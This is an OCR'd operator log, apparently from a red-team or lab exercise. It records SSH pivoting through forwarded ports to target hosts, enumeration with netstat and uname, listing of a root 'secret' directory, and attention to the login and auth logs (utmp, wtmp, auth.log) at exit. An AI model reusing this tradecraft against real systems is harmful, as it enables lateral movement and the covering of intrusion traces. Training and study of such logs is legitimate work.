 2024-03-25 10:01:48-- connected

2024-03-25 10:01:53-- vetting

2024-03-25 10:02:29-- date; date -u
Mon Mar 25 14:02:02 UTC 2024

2024-03-25 10:02:48-- uname -a
Linux Vyos2 3.13.11-1-amd64-vyos #1 SMP Wed Aug 12 02:08:05 UTC 2015 x86_64 GNU/Linux

2024-03-25 10:07:05-- sudo netstat -auntp
tcp        0      0 192.186.169.206:58199   192.186.169.133:33175   ESTABLISHED 15729/0

2024-03-25 10:11:40-- initial vet complete

2024-03-25 14:44:24-- exit vetting
/var/run/utmp
/var/log/wtmp
/var/log/auth.log

2024-03-25 14:46:37-- exit vet complete

2024-03-25 14:47:21-- exit

------------------------X
=========================

=========================
T4: 192.186.169.133
=========================
X-----------------------
2024-03-25 10:31:10-- ssh -S /tmp/T3 -O forward -L127.0.0.1:4444:192.186.169.133:33517 dummy
2024-03-25 10:31:24-- ssh -MS /tmp/T4 -p 4444 -o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null askar12@127.0.0.1

2024-03-25 10:31:48-- connected

2024-03-25 10:31:51-- vetting

2024-03-25 10:33:04-- date; date -u
Mon Mar 25 14:34:05 UTC 2024
3389/tcp open  ms-wbt-server Microsoft Terminal Services
2024-03-25 10:33:23-- uname -a
Linux DESKTOP-ADMIN2 4.18.0-240.1.1.el8_3.x86_64 #1 SMP Thu Nov 19 17:20:08 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux

2024-03-25 10:37:31-- sudo ls -latr /root/Sup3rS3cr3t
-rw-r--r--. 1 root root 1014 Feb  7 19:12 S3cr3tSqu1r1.stuff
-rw-r--r--. 1 root root 1000 Feb  7 19:12 S3cr3tSqu1r2.stuff
-rw-r--r--. 1 root root   17 Feb  7 19:12 S3cr3tSqu1r12.stuff
-rw-r--r--. 1 root root   12 Feb  7 19:12 S3cr3tSqu1r13.stuff
-rw-r--r--. 1 root root 1000 Feb  7 19:12 S3cr3tSqu1r3.stuff
-rw-r--r--. 1 root root   20 Feb  7 19:12 S3cr3tSqu1r14.stuff
drwxr-xr-x. 2 root root  191 Feb  7 19:12 .
-rw-r--r--. 1 root root 1000 Feb  7 19:12 S3cr3tSqu1r4.stuff

2024-03-25 10:52:52-- ls -latr /var/*/*acc*
-rw-------. 1 root root 40512 Mar 25 14:53 /var/account/pacct
